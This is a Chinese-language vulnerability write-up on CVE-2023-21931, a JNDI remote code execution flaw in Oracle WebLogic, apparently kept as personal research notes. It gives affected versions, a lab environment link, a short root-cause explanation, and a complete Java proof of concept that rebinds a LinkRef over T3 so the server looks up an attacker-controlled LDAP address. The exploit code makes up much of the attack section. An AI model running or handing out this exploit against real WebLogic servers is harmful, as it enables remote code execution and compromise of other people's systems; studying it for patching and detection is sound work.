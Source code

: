 - [CVE-2023-21931 远程代码执行(JNDI)](#cve-2023-21931-远程代码执行jndi)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
  - [漏洞复现](#漏洞复现)
  - [参考](#参考)

# CVE-2023-21931 远程代码执行(JNDI)
## 影响版本
```
Weblogic 12.2.1.3.0  
Weblogic 12.2.1.4.0  
Weblogic 14.1.1.0.0  
```
## 环境搭建
https://github.com/QAX-A-Team/WeblogicEnvironment  
测试环境:  
Weblogic 12.1.3  
JDK: 8u112
## 原理分析
原理和CVE-2023-21839一致,漏洞触发点就在21839的下面一行代码,原理很简单,记录一下.  
![](2023-04-20-10-24-51.png)  
可以看到如果绑定对象是`LinkRef`类型的话,就会拿到其LinkName属性然后在下面直接传入了lookup.  
而LinkRef对象的LinkName直接在创建的时候赋值就行了.  
![](2023-04-20-10-26-54.png)   
## 漏洞复现  
```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.LinkRef;
import javax.naming.NamingException;
import java.io.IOException;
import java.util.Hashtable;

public class app {
    static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";
    private static InitialContext getInitialContext(String url) throws NamingException {
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
    public static void main(String[] args) throws IOException, NamingException {
        LinkRef linkRef = new LinkRef("ldap://192.168.91.1:1389/sm01lh");
        InitialContext c= getInitialContext("t3://192.168.91.1:7001");
        c.rebind("poc",linkRef);
        c.lookup("poc");
    }
    }
```
## 参考  
https://nosec.org/home/detail/5082.html